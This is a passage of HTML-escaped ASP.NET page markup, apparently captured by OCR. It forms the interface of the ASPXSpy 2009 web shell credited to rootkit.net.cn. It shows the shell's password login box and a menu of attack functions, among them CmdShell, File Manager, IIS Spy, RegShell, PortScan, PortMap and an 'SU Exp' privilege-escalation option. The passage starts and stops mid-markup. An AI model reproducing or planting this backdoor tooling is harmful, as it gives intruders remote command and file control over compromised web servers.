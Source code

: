 e.checked=form.chkall.checked;
}
}
&lt;/script&gt;
&lt;/head&gt;
&lt;body style="margin:0;table-layout:fixed;"&gt;
&lt;form id="ASPXSpy" runat="server"&gt;
&lt;div id="ljtzC" runat="server" style=" margin:15px" enableviewstate="false" visible="false" &gt;
&lt;span style="font:11px Verdana;"&gt;Password:&lt;/span&gt;
&lt;asp:TextBox ID="HRJ" runat="server" Columns="20" CssClass="Bin_Style_Login" &gt;&lt;/asp:TextBox&gt;
&lt;asp:Button ID="ZSnXu" runat="server" Text="Login" CssClass="Bin_Style_Login" OnClick="xVm"/&gt;&lt;p/&gt;
Copyright &copy; 2009 Bin -- &lt;a href="http://www.rootkit.net.cn" target="_blank"&gt;www.rootkit.net.cn&lt;/a&gt;
&lt;/div&gt;
&lt;div id="ZVS" runat="server"&gt;
&lt;div id="Zzj" runat="server"&gt;
&lt;table width="100%" border="0" cellpadding="0" cellspacing="0"&gt;
&lt;tr class="head"&gt;
&lt;td &gt;&lt;span style="float:right;"&gt;&lt;a href="http://www.rootkit.net.cn" target="_blank"&gt;ASPXSpy Ver: 2009&lt;/a&gt;&lt;/span&gt;&lt;span id="Bin_Span_Sname" runat="server" enableviewstate="true"&gt;&lt;/span&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;tr class="alt1"&gt;
&lt;td&gt;&lt;span style="float:right;" id="Bin_Span_FrameVersion" runat="server"&gt;&lt;/span&gt;
&lt;asp:LinkButton ID="UtkN" runat="server" OnClick="YKpI" Text="Logout" &gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="RsqhW" runat="server" Text="File Manager" OnClick="Ybg"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="xxzE" runat="server" Text="CmdShell" OnClick="VOxn"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="nuc" runat="server" Text="IIS Spy" OnClick="KjPi"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="OREpx" runat="server" Text="Process" OnClick="Grxk"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="jHN" runat="server" Text="Services" OnClick="ilC"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="PHq" runat="server" Text="UserInfo" OnClick="Olm"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="wmgnK" runat="server" Text="SysInfo" OnClick="HtB"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="FeV" runat="server" Text="FileSearch" OnClick="PPtK"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="PVQ" runat="server" Text="SU Exp" OnClick="jXhS"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="jNDb" runat="server" Text="RegShell" OnClick="xSy"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="HDQ" runat="server" Text="PortScan" OnClick="cptS" &gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="AoI" runat="server" Text="DataBase" OnClick="dMx"&gt;&lt;/asp:LinkButton&gt; | &lt;asp:LinkButton ID="KHbEd" runat="server" Text="PortMap" OnClick="fDO"&gt;&lt;/asp:LinkButton&gt;
&lt;/td&gt;
&lt;/tr&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;table width="100%" border="0" cellpadding="15" cellspacing="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;div id="jDKt" style="background:#f1f1f1;border:1px solid #ddd;padding:15px;font:14px;text-align:center;font-weight:bold;" runat="server" visible="false" enableviewstate="false"&gt;&lt;/div&gt;
&lt;h2 id="Bin_H2_Title" runat="server"&gt;&lt;/h2&gt;
&lt;%--FileList--%&gt;
&lt;div id="CzfO" runat="server"&gt;
&lt;table width="100%" border="0" cellpadding="0" cellspacing="0" style="margin:10px 0;"&gt;
 &lt;tr&gt;
&lt;td style=" white-space:nowrap"&gt;Current Directory : &lt;/td&gt;
&lt;td style=" width:100%"&gt;&lt;input class="input" id="AXSbb" type="text" style="width:97%;margin:0 8px;" runat="server"/&gt;
&lt;/td&gt;
&lt;td style="white-space:nowrap" &gt;&lt;asp:Button ID="xaGwl" runat="server" Text="Go" CssClass="bt" OnClick="EXV"/&gt;&lt;/td&gt;
 &lt;/tr&gt;
&lt;/table&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0"&gt;
&lt;tr class="alt1"&gt;&lt;td colspan="7" style="padding:5px;"&gt;